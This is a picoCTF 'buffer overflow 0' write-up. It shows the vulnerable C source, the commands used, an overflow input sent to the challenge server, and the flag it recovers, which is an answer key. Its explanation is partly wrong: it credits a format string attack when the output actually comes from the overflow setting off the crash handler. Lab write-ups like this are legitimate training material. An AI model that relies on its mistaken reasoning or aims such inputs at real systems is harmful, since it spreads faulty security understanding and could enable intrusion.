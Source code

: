 # **Challenge:** buffer overflow 0


### **Category:** [Binary Exploitation](../)
### **Point Value:** 100
### **Author:** Alex Fulton / Palash Oswal
<br>

## **Description:**
Smash the stack<br> Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/525/vuln).[^1] [local](./vuln) You can view source [here](https://artifacts.picoctf.net/c/525/vuln.c).[^1] [local](./vuln.c) And connect with it using: nc saturn.picoctf.net 53182[^1]


# **Write-Up:**
Download all the things:
```bash
wget https://artifacts.picoctf.net/c/525/vuln
wget https://artifacts.picoctf.net/c/525/vuln.c
```
Lets start by runnin vuln and see what we get.  First we need to set the executible bit using chmod:
```bash
chmod +x vuln

└─$ ./vuln
Please create 'flag.txt' in this directory with your own debugging flag.
```
Now create a flag.txt and restart 'vuln':
```bash
echo "picoCTF{testflag}" > flag.txt

└─$ ./vuln
Input: test
The program will exit now

```


We are prompted to input a value, and when doing so the program just seems to exit. So let's look at the [source code](./vuln.c) and see if we can figure out what's going on.  Looking at the main function we can see that it uses the 'gets()' function to obtain the user input.  This function is vulnerable to a [Format String Attack](https://owasp.org/www-community/attacks/Format_string_attack), so we should be able to get the program to output memory values by passing in the '%x' format string.

```c
int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```  

Let's try it out and see what happens:
```bash
└─$ ./vuln
Input: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x 
picoCTF{test_flag}
```  

And as you can see passing in all of those %x format strings, the program prints out our test flag locally. Now lets try it on the supplied server.
```bash
└─$ nc saturn.picoctf.net 65445
Input: %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
picoCTF{ov3rfl0ws_ar3nt_that_bad_6091cc95}
```
As you can see we get our flag for the challenge!
# **FLAG:**

picoCTF{ov3rfl0ws_ar3nt_that_bad_6091cc95}

#
[^1]: Included links to the source code may be out of date as they were what I recorded during the competition, and may be different now.